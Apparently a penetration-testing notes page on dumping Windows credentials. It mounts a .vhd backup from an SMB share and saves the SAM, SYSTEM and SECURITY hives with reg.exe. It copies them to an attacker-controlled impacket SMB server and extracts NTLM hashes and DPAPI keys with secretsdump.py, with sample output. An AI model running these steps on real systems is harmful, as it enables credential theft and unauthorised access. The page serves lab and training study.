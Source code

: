 ```yaml
---
description: SAM - sam.save - system.save - Hashes - secretsdump.py - passwords
---
```


# Hashes from .vhd

Coming across or finding a .vhd or Virtual Hard Disk file its also possible to find the registry files, these files are locked on a running system but not when its mounted.&#x20;

Mount an SMB share

```bash
$ mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
$ ls /mnt/
note.txt  SDT65CB.tmp  WindowsImageBackup

# Mounting the .vhd
guestmount --add /mnt/remote/path/to/vhdfile.vhd --inspector --ro /mnt/vhd -v
```

On windows you can use computer management and add it at "more actions".

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

### SAM

Security account manager or SAM is a database wich stores the hashes for users on the windows system. We can extract hashes from it and crack them.&#x20;

| Hive        | File                              |
| ----------- | --------------------------------- |
| hklm\sam    | C:\WIndows\System32\config\SAM    |
| hklm\system | C:\Windows\System32\config\SYSTEM |

```
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
The operation completed successfully.
```

Or using windows explorer go /windows/system32/config and copy the files.

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Setup SMB server to copy files

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support Zendata /home/mczen/Documents/
```

Copy the files

```
C:\> move sam.save \\10.10.15.16\Zendata
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\Zendata
        1 file(s) moved.
```

### <mark style="color:yellow;">Extract hashes with secretsdump.py</mark>

```
$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
```

